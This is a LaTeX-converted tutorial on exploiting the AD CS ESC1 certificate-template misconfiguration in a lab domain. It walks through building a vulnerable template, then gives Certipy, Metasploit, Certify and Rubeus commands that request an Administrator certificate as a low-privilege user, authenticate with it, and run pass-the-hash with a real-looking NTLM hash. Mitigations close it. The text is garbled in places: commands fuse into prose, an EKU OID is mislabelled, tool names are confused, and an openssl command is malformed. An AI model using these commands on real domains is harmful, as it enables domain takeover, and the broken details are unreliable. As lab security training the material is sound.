
\section{AD Certificate Exploitation: ESC1-Deep Dive}

\subsection{1. Introduction to ESC1}
Active Directory Certificate Services (AD CS) extends an Active Directory environment with a \textit{Public Key Infrastructure (PKI)}, issuing, managing, and validating digital certificates all the way from when the certificate has been authorized and released to the requester throughout its lifecycle until its expiry hits. These certificates enable secure communications, secure log on to a domain, code signing, digital signatures, and more.

%AD CS is designed to strengthen security, misconfigurations can introduce dangerous privilege escalation pathways. One of the most critical and commonly abused pathway of these is \textit{ESC1}-short for \textit{Enterprise Security Certificate vulnerability #1} in the ADCS Attack Path framework.

Some common types of certificate templates include:

\begin{enumerate}
    \item \textbf{User Certificate} – Used for authenticating users.
    \item \textbf{Computer Certificate} – Used for authenticating computers.
    \item \textbf{Web Enrollment Certificate} – Used for enrolling via the web.
    \item \textbf{Code Signing Certificate} – Used to sign software or applications.
\end{enumerate}

\subsubsection{Table of Content}

\begin{itemize}
    \item Active Directory Certificate Services (AD CS) – Certificate Flow
    \item Understanding Enrollment Right Misconfigurations
    \item Prerequisites
    \item Lab Setup
\end{itemize}
\textbf{Enumeration \& Exploitation}

\begin{itemize}
    \item Methods 1: Certipy-ad
    \item Methods 2: Metasploit
    \item Methods 3: certipy.exe
\end{itemize}
\textbf{Mitigation Strategies}

\subsubsection{Active Directory Certificate Services (AD CS) – Certificate Flow}

\textbf{Setup ->}\textbf{ Request  ->}\textbf{ Approval ->}\textbf{ Use ->}\textbf{ Renewal or Revocation ->}\textbf{ Validity Check}


\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{cssetup.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
\textbf{Setup}
Initially, the organization sets up a Certificate Authority (CA) – this acts like an official office that issues digital identity cards (certificates) to users and computers.

\textbf{Request}
A user or device asks the CA:

“\textit{Please give me a certificate}.”

This can happen:

\begin{itemize}
    \item \textbf{Automatically} (via Group Policy for domain-joined systems)
    \item \textbf{Manually} (using tools like MMC, certreq, or web enrollment)
\end{itemize}

\textbf{Approval}
Next, the CA checks:

\textit{“Is this a valid and authorized request?”}

If yes, it \textbf{signs} the certificate (just like stamping and issuing an ID card) and sends it back to the requester.

\textbf{Use}
Once issued, the certificate is now used for secure purposes, such as:

\begin{itemize}
    \item Logging into domain computers
    \item Enabling HTTPS on web servers
    \item Email encryption and signing
    \item VPN and Wi-Fi authentication
    \item IPsec communication
\end{itemize}

\textbf{Renewal or Revocation}

\begin{itemize}
    \item \textbf{Renewal}: Before a certificate expires, the system or user can request a new one.
    \item \textbf{Revocation}: If the certificate is compromised or no longer needed, the CA can revoke (cancel) it.
\end{itemize}

\textbf{Validity Check}
Other systems regularly check:

\textit{“Is this certificate still valid and trusted?”}

They look at:

\begin{itemize}
    \item \textbf{Certificate Revocation Lists (CRL)}
    \item \textbf{Online Certificate Status Protocol (OCSP)}
\end{itemize}
to verify if the certificate is still good or has been revoked.

In this article, we will exploit misconfigured ADCS certificate template to request a certificate for any user, such as \textbf{Administrator}, and use it for authentication

\subsubsection{Understanding Enrollment Rights Misconfiguration}

To begin with, Enrollment Rights Misconfiguration occurs when an Active Directory Certificate Services (AD CS) template has the following misconfigurations:

\begin{itemize}
    \item ENROLLEE\_SUPPLIES\_SUBJECT → Allows users to specify their own Subject Alternative Name (SAN).
    \item Any Purpose (EKU: 1.3.6.1.5.5.7.3.3) → Allows authentication with the certificate.
    \item No Manager Approval Required → Directly issues certificates.
    \item Accessible to Low-Privilege Users → Any domain user can request a certificate.
\end{itemize}
Therefore, if any of these are seen this means, any authenticated user can request a certificate for another user like Administrator and then use that certificate for authentication and privilege escalation.

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{policies.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

The image given below will help you to understand the type of policy that is used to certificate purpose. For example, here the given certificate is design for clients or user authentication.

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{eku.png}
    \caption{Enhanced Key Usage Client Authentication extension-only properties}
\end{figure}

\subsubsection{Prerequisites}

\begin{itemize}
    \item Windows Server 2019 as Active Directory that supports PKINIT
    \item Domain must have Active Directory Certificate Services and Certificate Authority configured.
    \item Kali Linux
    \item Tools: Rubeus.exe, certify.exe, Impacket, certipy-ad, Metasploit
\end{itemize}

\subsubsection{Lab Setup}

To simulate the vulnerability in a practical environment, we will create a user named ‘aarti and add her to the \textbf{Domain Users} group, specifically to the \textbf{IGNITEDomain Users} group, where ‘aarti’ will be a member. This setup will demonstrate how attackers can exploit misconfigurations in an Active Directory Certificate Services (AD CS) template, specifically focusing on \textbf{AD CS ESC1 Certificate Exploitation} to escalate privileges.

\paragraph{Create the AD Environment:}

To simulate an Active Directory environment, you will need a Windows Server configured as a Domain Controller (DC) and a controlled Active Directory lab that includes a vulnerable certificate template.

\paragraph{Domain Controller \& AD CS Configuration:}

\begin{itemize}
    \item Install Windows Server (2016 or 2019 recommended) that supports PKINIT.
    \item Promote it to a Domain Controller by adding the \textbf{Active Directory Domain Services}
    \item Set up the domain (e.g., \textbf{Ignite}).
    \item The domain must have \textbf{Active Directory Certificate Services (}\href{https://www.hackingarticles.in/domain-persistence-golden-ticket-attack/}{\textbf{Read more}}\textbf{)}and a \textbf{Certificate Authority}
\end{itemize}

\subparagraph{\textbf{Walkthrough: Creating a Vulnerable Certificate Template}}

Let’s have a walkthrough of the lab setup following with the Creation of a Vulnerable Certificate Template in AD CS we already discussed.

\subparagraph{\textbf{Step-by-Step: Configure the ESC1-Vulnerable Certificate Template}}

we will configure a misconfigured certificate template in Active Directory Certificate Services (AD CS) that allows for ESC1 exploitation. This involves duplicating an existing certificate template, enabling subject name supply, and setting permissions that make it vulnerable.

\textbf{Open certsrv.msc} (Certificate Authority) by using the run box in your windows AD CS

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{certsvc.png}
    \caption{Opening the Certificate Manager via Run in Windows}
    \label{fig:placeholder}
\end{figure}

Navigate to Certificate Templates → \textbf{Manage}

\begin{figure}
    \centering
    
\includegraphics[width=0.85\linewidth]{cammc.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

You will see the list of various certificate templates, Duplicate the code signing template by simply clicking duplicate template

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{certtemp.png}
    \caption{Certificate Template}
    \label{fig:placeholder}
\end{figure}


Edit the properties of the new template Under the \textbf{General tab} where Change Template display name to something like Custom\_ESC1.

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{customesc1.png}
    \caption{CA template}
    \label{fig:placeholder}
\end{figure}

Navigate to the \textbf{Subject Name tab} and Select “\textbf{Supply in the request}” → This is the key misconfiguration that allows attackers to request certificates for any user.

\textit{Note: }\textit{Allowing users to manually specify the Subject Name when requesting a certificate enables attackers to request certificates for any username, including Administrator, and, when combined with ESC1 misconfigurations, facilitates privilege escalation.}

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{maketemp.png}
    \caption{Allowing users to manually specify the Subject Name when requesting a certificate enables attackers to request certificates for any username.}
    \label{fig:placeholder}
\end{figure}


\subparagraph{\textbf{Modify Template Permissions}}

Modify Permissions (Access for All Users) navigate to the \textbf{Security tab} where you can see Authenticated Users or Click Add, then type Authenticated Users → Click OK to Select Authenticated Users.

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{modtempperm.png}
    \caption{Modifying template permissions}
    \label{fig:placeholder}
\end{figure}


But in this case, we will modify the permissions for the \textbf{Domain Users} group. Click \textbf{Add}, type \textbf{Domain Users}, and then add it to the group.

Select \textbf{Domain Users} and check the following permissions: \textbf{Enroll}

\subparagraph{\textbf{Define Application Policies}}

Expend the property of Custom\_ESC1 certificate and Navigate to the \textbf{Extensions tab} and Select “Application Policies” → This defines how a certificate can be used. 

Click on Edit button

Now select Add button under Application policies box

Here we are required to add the application policies, select Client Authentication and Click on ok.

\subparagraph{\textbf{Publish the Vulnerable Template}}

Once the template is configured, we need to publish it to the Certificate.

Go back to the Certificate Authority (certsrv.msc) window. Right-click Certificate Templates → Click New → Certificate Template to Issue.

Find Vulnerable Template in the list and select it in our case we created it as Custom\_ESC1.

Click OK to publish it.

\paragraph{Why the ESC1 Template is Vulnerable}

At this point, it’s crucial to understand why this template is vulnerable. This is because we commence some misconfiguration as:

Allowing Subject Alternative Name (SAN) Manipulation → Attackers can request a certificate as \href{mailto:Administrator@ignite.local}{Administrator@ignite.local},
\textbf{\textit{Note:}} \textit{This issue occurs in Certificate Template Management (certtmpl.msc) under the “Request Handling” settings in the template. The mistake is that the “Supply in the request” option allows users to specify any Subject Alternative Name (SAN), enabling attackers to request certificates for Administrator, Domain Admins, or service accounts.}

Making Accessible to All Domain Users → Any domain user belonging to domain user group can enroll.
\textbf{\textit{Note:}} \textit{This issue occurs when creating or modifying a certificate template in certsrv.msc or setting “Enrollment Permissions” in Active Directory Users \& Computers (ADUC). The mistake is allowing “Domain Users” group to enroll in the template or granting “Enroll” or “AutoEnroll” permissions to everyone in the group}.

No Additional Approval Needed → No admin intervention is required to issue a certificate.
\textbf{\textit{Note:}} \textit{This issue occurs in Certification Authority MMC (certsrv.msc) under “Certificate Template Properties.” The mistake is allowing certificates to be issued without manual approval, which enables attackers to request an Administrator certificate without triggering alerts.}

This configuration makes the ESC1 attack possible, where a low-privileged user can request a certificate for a privileged account, authenticate using it, and escalate privileges.

\subsubsection{Enumeration and Exploitation Methods}

Once this template is configured, an attacker can use various tools to request an Administrator certificate, demonstrating \textbf{AD CS ESC1 Certificate Exploitation}, and gain elevated access.

Now that the vulnerable certificate template (Custom\_ESC1 or you may have set the another name of template) is configured, the next steps involve:

\paragraph{\textbf{Method 1 : Certipy-ad}}

\textbf{Step 1: Enumerate Certificate Templates}

Before attacking, we must identify vulnerable certificate templates. For this we will use Linux tool name certipy-ad (Certipy-ad – it is a python tool for AD CS attacks)

certipy-ad find -u 'aarti@ignite.local' -p Password@1 -dc-ip 192.168.1.48 -vulnerable -enabledNow it’s time to look for the template that we saved just now and look for “Domain Users” with Enroll permissions. If Vulnerable Template appears in the results which is Custom\_ESC1 in our case, move to the next step.

\textbf{Step 2: Request a Certificate as Administrator}

On Linux (using Certipy), you can run the following command:

certipy-ad req -u 'aarti@ignite.local' -p 'Password@1' -dc-ip 192.168.1.48 -ca ignite-DC1-CA -target 'dc.ignite.local' -template 'Custom\_ESC1' -upn 'administrator@ignite.local'If successful, an authentication certificate will be generated

\textbf{Step 3: Authenticating as Administrator}

Now its time to authenticate with given certificate as an administrator by launching simple command as

certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.1.48\textbf{Step 4: Dump NTLM Hashes for Post Exploitation}

Once authenticated as Administrator, dump NTLM hashes from the Domain Controller

\textbf{Step 5: Lateral Movement \& Privilege Escalation}

After obtaining NTLM hashes, move laterally using Pass-the-Hash (PTH) attacks.

For this using an amazing tool impacket with the command

impacket-psexec ignite.local/administrator@ignite.local -hashes aad3b435b51404eeaad3b435b51404ee:64fbae31cc352fc26af97cbdef151e03

\paragraph{\textbf{Method 2 : Metasploit}}

\textbf{Metasploit}, a powerful penetration testing framework, can automate ESC1 exploitation by:

\textbf{Step 1: Enumerating AD CS misconfigurations}

Before attacking, enumerate certificate templates to check for misconfigurations. Metasploit’s ldap\_esc\_vulnerable\_cert\_finder automates the process of finding misconfigured certificate templates that allow privilege escalation.

Start Metasploit and load the LDAP enumeration module.

msfconsoleuse auxiliary/gather/ldap/ldap\_esc\_vulnerable\_cert\_finderset RHOSTS 192.168.1.48set DOMAIN ignite.localset USERNAME aartiset PASSWORD Password@1run

\begin{itemize}
    \item The RHOSTS is the Domain Controller’s IP address.
    \item The DOMAIN is the target Active Directory domain
    \item The USERNAME \& PASSWORD are for a low-privileged AD user.
\end{itemize}
The module will check misconfigured certificate templates.

Look for:”Domain Users” can enroll

Once a vulnerable template is found, we can request a certificate as Administrator.

\textbf{Step 2: Requesting certificates for privilege escalation}

Load the Certificate Request Module

use auxiliary/admin/dcerpc/icpr\_certset rhosts 192.168.1.48set smbuser aartiset smbpass Password@1set CA ignite-DC1-CAset cert\_template Custom\_ESC1set smbdomain ignite.localrunThis requests a Kerberos authentication certificate for Administrator.

If successful, a .pfx certificate file is saved.

\textbf{Step 3: Using certificates for Pass-the-Certificate (PtC) attacks}

Load the kerberos Module

use auxiliary/admin/kerberos/get\_ticketset rhosts 192.168.1.48set domain ignite.localset action GET\_HASHset username administratorset cert\_file /root/.msf4/loot/20250108132859\_default\_192.168.1.48\_windows.ad.cs\_493919.pfxrunUses NTLM hash authentication to move laterally with your favourite techniques and tools.

\paragraph{\textbf{Method 3 : Certipy.exe}}

\subparagraph{\textbf{Step 1: Vulnerable Certificate Template Existence}}

When logged in with any user belonging to the \textbf{Domain Users} group, such as the \textbf{aarti} user in this case, you can use your preferred tools to confirm the presence of a vulnerable template.  In this Case to do this, run the following command using \textbf{Certify.exe} — a Windows tool that helps enumerate and exploit AD CS vulnerabilities. The command listed below will display all certificate templates and flag any misconfigurations.

Run the command

certify.exe find /vulnerable /currentuserYou can also find for ENROLLEE\_SUPPLIES\_SUBJECT flag little down which confirms your template vulnerable to the attack.

\subparagraph{\textbf{Step 2: Request a Certificate as Administrator}}

Once we identify a vulnerable template, request a certificate for Administrator.

Fire up the command as

certify.exe request /ca:DCI.ignite.localignite-DC1-CA /template:Custom\_ESC1 /altname:ignite.localadministratorRequests a certificate and saves it as a .pfx file (e.g., cert.pfx). You can use tools of your choice or same certify.exe tool to save the requested certificate here we move with the tool openssl to export the certificate

Launch the command as

.openssl pkcs12 -\textbf{in} cert.pem -keyex -csp "Microsoft Enhanced Cryptographicprovider v1.0" -Export -out c:Userspubliccert.pfxAlthough we have successfully generated the authentication certificate, we are unable to access the C\$ share when attempting to list it via SMB by using the command:

dir \textbackslash{}dc1.ignite.localC\$

\subparagraph{\textbf{Step 3: Requesting a Kerberos TGT using the certificate}}

Now lets try Rubeus.exe to obtain a ticket Granting Ticket (TGT) for administrator from the domain controller. If Sucessful , the output will contain a Base64-Encoded TGT

\subparagraph{\textbf{Step 4: Inject the TGT into the current session}}

Once we have TGT, we can inject it into the memory to assume administrator privileges

Just fire the command

.Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /pttThis enables the current session to operate as administrator you can verify it with use of ticket for privilege escalation by just trying to access the path C\$ of DC.

\subsubsection{Mitigation Strategies}

\begin{itemize}
    \item Restrict Certificate Template Permissions → Only privileged users should have enrollment rights.
    \item Enforce Strong Cryptography → Use RSA 3072/4096-bit and SHA-256/SHA-512.
    \item Disable User-defined SAN Attributes → Prevent unauthorized impersonation.
    \item Monitor Certificate Issuance → Enable auditing for Event IDs 4886, 4887, 4768.
    \item Implement Certificate Revocation Policies → Use CRLs and OCSP to invalidate stolen certificates.
\end{itemize}
To prevent AD CS ESC1 certificate exploitation, organizations must implement strong security measures. Regular audits of certificate templates and correct configuration of AD CS can mitigate the risks of such vulnerabilities.

 